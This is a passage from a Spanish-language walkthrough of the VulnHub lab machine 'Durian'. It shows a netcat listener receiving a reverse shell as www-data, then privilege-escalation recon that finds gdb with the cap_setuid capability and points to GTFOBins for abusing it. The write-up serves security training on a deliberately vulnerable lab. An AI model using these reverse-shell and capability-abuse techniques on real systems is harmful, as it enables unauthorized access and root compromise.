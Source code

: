 
Con la herramienta netcat nos ponemos en escucha en nuestro equipo por el puerto 443 y ejectuamos el típico oneliner de bash para obtener una reverse shell


<img src="/assets/VH/Durian/reverse.png">


```bash
sudo nc -nlvp 443

[sudo] password for yorch: 
listening on [any] 443 ...
connect to [192.168.1.148] from (UNKNOWN) [192.168.1.138] 48046
bash: cannot set terminal process group (513): Inappropriate ioctl for device
bash: no job control in this shell
www-data@durian:/var/www/html/cgi-data$ whoami
whoami
www-data
www-data@durian:/var/www/html/cgi-data$ 
```
Hemos conseguido acceso a la máquina víctima!!

### Escalada de Privilegios

* * *

Iniciamos el reconocimiento con el comando `id` para listar grupos en los que se encuentre el usuario y con `sudo -l` listamos los binarios que podemos ejecutar con privilegio de `root` pero no encontramos nada interesante. Procedemos a listar capabilities

```bash
www-data@durian:/var/www/html/cgi-data$ getcap -r / 2>/dev/null 
/usr/bin/gdb = cap_setuid+ep
/usr/bin/ping = cap_net_raw+ep
```
Nos llama la atención el binario `gdb` con capabilitie `cap_setuid+ep`. Tras consultar **GTFOBins** vemos que este binario con esta capabilitie son vulnerables


<img src="/assets/VH/Durian/capabiliti.png">
